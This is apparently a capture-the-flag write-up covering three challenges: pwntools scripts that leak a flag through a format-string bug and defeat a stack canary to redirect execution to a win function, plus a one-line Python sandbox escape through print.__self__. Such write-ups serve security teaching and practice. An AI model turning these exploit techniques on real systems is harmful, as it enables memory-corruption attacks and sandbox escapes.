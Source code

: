 ## Form a String

Format string attack, spam "%p", and translate the hex output to ASCII. Then sequence "ictf..." and you got the flag.

```python
from pwn import *

elf = ELF('./pwn', checksec=False)
# p = elf.process()
p = remote('34.203.197.39', 3000)

# context.log_level = 'debug'
# gdb.attach(p, gdbscript='i f')

def print_flag_part(index):
    p.sendline(f'%{index}$p')
    flagpart = p.recvline().decode()[2:]
    print(bytearray.fromhex(flagpart).decode()[::-1], end='')

p.recvline()

for i in range(18, 23):
    print_flag_part(i)
```

## Minijail

From `print`, we can get to `__builtins__` via `print.__self__`. With this, a short exploit would consist of running `exec(input())`, but both of these require access to `__builtins__`.

Luckily, we appear to be running a modern python version, so we can use the walrus operator. This means we can assign `__builtins__` to a short variable name and use it in the same expression (e.g. a tuple or a list).

`[b:=print.__self__,b.exec(b.input())]` is exactly the length we need.

## canaries

```
from pwn import *

binary = ELF('./canaries', checksec=False)
# p = binary.process()
p = remote('stephencurry.ctfchallenge.ga', 5002)
# context.log_level = 'debug'

win = binary.symbols['win']
ret = 0x401016

fmtstr = b'%9$lx'

p.recvline()
p.sendline(fmtstr)
canary = b'0x' + p.recvline().split()[-1]
print(canary)

p.recvline()

payload = b'A'*24 + p64(int(canary, 16)) + b'B'*8 + p64(ret) + p64(win)
p.send(payload)

# gdb.attach(p, gdbscript='i f')
p.interactive()
```